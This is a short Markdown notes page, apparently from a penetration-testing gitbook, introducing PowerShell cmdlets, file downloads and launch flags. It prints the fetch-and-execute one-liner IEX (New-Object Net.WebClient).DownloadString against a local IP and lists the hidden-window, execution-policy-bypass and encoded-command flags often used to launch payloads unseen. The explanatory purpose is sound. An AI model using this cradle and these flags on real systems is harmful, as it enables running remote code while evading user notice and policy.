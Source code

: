 # Powershell Basics

Microsoft has a free course on Introduction to Powershell [here](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) on their website. Information on [about\_Powershell.exe](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_powershell\_exe?view=powershell-5.1\&viewFallbackFrom=powershell-7.2).

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

### Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

## Commands

* `IEX` OR `Invoke Expression`
  * The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.

### Download files:

*   Invoke-WebRequest http://`(IP)`:(PORT)/(FILE) -Outfile (Outputfile)

    * Invoke-WebRequest -URI http://192.168.1.52:8000/test.txt -Outfile Downloaded.txt



![](<../../.gitbook/assets/image (14).png>)

* "IEX (New-Object Net.WebClient).DownloadString('URL')"
  * IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.52:8000/test.txt')

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.
